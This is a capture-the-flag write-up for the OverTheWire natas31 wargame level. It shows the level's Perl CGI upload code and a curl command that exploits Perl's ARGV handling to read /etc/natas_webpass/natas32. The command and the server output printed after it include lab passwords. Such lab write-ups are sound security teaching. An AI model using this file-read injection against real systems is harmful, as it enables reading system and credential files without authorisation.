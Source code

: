 ### natas31

```php
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
        my @elements=split /,/, $_;

        if($i==0){ # header
            print "<tr>";
            foreach(@elements){
                print "<th>".$cgi->escapeHTML($_)."</th>";   
            }
            print "</tr>";
        }
        else{ # table content
            print "<tr>";
            foreach(@elements){
                print "<td>".$cgi->escapeHTML($_)."</td>";   
            }
            print "</tr>";
        }
        $i+=1;
    }
    print '</table>';
}
else{
print <<END;
```

Perl allows using @ARGV array as filenames by using <>. The $ARGV contains the name of the current file when reading from <>. So we can using `curl` to send payload:

```shell
curl -F "file=ARGV" -F "file=@test.csv" --user natas31:hay7aecuungiuKaezuathuk9biin0pu1 http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32
```

```
<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>no1vohsheCaiv3ieH4em1ahchisainge
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

### natas32

